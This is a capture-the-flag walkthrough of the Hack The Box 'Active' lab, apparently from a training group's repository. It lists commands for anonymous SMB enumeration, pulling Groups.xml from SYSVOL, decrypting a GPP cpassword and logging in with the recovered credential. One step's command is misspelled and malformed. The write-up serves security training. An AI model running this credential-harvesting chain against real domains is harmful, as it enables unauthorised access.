









<div align="left">


</div>

# Hack The Box: Active

<div align="left">

<br>
<br>


</div>

---

# 📌 Overview

Active is a **Windows Active Directory lab** that demonstrates how **Group Policy Preference (GPP) credential exposure** can lead to authenticated domain compromise.

The attack path is driven by:

* Anonymous SMB access
* SYSVOL / Replication share enumeration
* Extraction of `Groups.xml`
* Decryption of `cpassword`
* Authenticated domain access

This mirrors real-world legacy AD misconfigurations.

---

## 🛠 Tools Used

```bash
nmap                → service discovery
smbclient           → anonymous SMB enumeration
smbmap              → share permission discovery
impacket-lookupsid  → RID cycling
gpp-decrypt         → decrypt GPP cpassword
impacket-GetADUsers → domain user enumeration
```

---

## <h1 style="color:pink;">Walkthrough steps</h1>

### Step 1 — Recon (Nmap)

**Goal:** Identify exposed services and confirm Domain Controller.

```bash
nmap -sC -sV -Pn 10.129.8.5
```

**What to observe:**

* DNS / Kerberos / LDAP / SMB present
* Host identified as Domain Controller
* Domain: `active.htb`



---

### Step 2 — Anonymous SMB Enumeration

**Goal:** Check for anonymous share access.

```bash
smbclient -L //10.129.8.5/ -N
```

**What to observe:**

* `Replication` share accessible
* SYSVOL present



---

### Step 3 — Share Permission Enumeration

**Goal:** Confirm share permissions.

```bash
smbmap -H 10.129.8.5
```

**What to observe:**

* `Replication` → READ ONLY



---

### Step 4 — Download Policy Files

**Goal:** Pull policy folders from Replication share.

```bash
smbclient //10.129.8.5/Replication -N
mget *
```

**What to observe:**

* Policy directories downloaded
* `Groups.xml` discovered



---

### Step 5 — Extract GPP Credential

**Goal:** Identify stored password in Groups.xml.

```bash
cat active.htb/Policies/{GUID}/MACHINE/Preferences/Groups/Groups.xml
```

**What to observe:**

* `cpassword` value present
* User: `active.htb\SVC_TGS`



---

### Step 6 — Decrypt GPP Password

**Goal:** Recover plaintext password.

```bash
gpp-decrypt <cpassword>
```

**What to observe:**

* Password recovered: `GPPstillStandingStrong2k18`



---

### Step 7 — Authenticated SMB Access

**Goal:** Authenticate as SVC_TGS.

```bash
smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.129.8.5
```

**What to observe:**

* Authenticated session established


---

### Step 8 — Retrieve User Flag

**Goal:** Access SVC_TGS profile and obtain flag.

```bash
smbclient -U SVC_TGS%GPPstillStandingStrong2k18 //10.129.8.5/Users
cd SVC_TGS/Desktop
get user.txt
```

**What to observe:**

* `user.txt` successfully retrieved



---

### Step 9 — Domain Enumeration

**Goal:** Enumerate domain users.

```bash
Smbclinet -u active.htb/svc_tgs:GPPstillStandingStrong2k18 // 10.129.8.5/users
```

**What to observe:**

* Domain user list
* Administrator account identified



---

### Step 10 — RID Cycling (Optional Enumeration)

```bash
impacket-lookupsid active.htb/guest@active.htb -no-pass
```

**What to observe:**

* Domain SID information
* User and group objects discovered



---

## <h1 style="color:lightgreen;">Proof</h1>

* **User proof:** `C:\Users\SVC_TGS\Desktop\user.txt`
* **Root/System proof:** `C:\Users\Administrator\Desktop\root.txt`

📸 **Proof screenshot(s):**


---

## 🧠 What This Lab Teaches

* Why GPP passwords should never remain in SYSVOL
* Anonymous SMB is never harmless
* Importance of auditing domain shares
* Small AD misconfigurations can lead to domain compromise

---

## 📌 Conclusion

> **Legacy configurations are often the weakest link in enterprise security.**

If attackers can access SYSVOL and extract GPP credentials, domain compromise becomes straightforward.

Understanding AD misconfigurations is essential before moving into advanced Kerberos abuse and post-exploitation techniques.

---

This work is part of **FuzzRaiders**’ structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability, methodological rigor and real-world security execution

Happy hacking 🚀

---

### Author: Anka0X
---
## [LinkedIn:](https://www.linkedin.com/in/manka-sec/)
---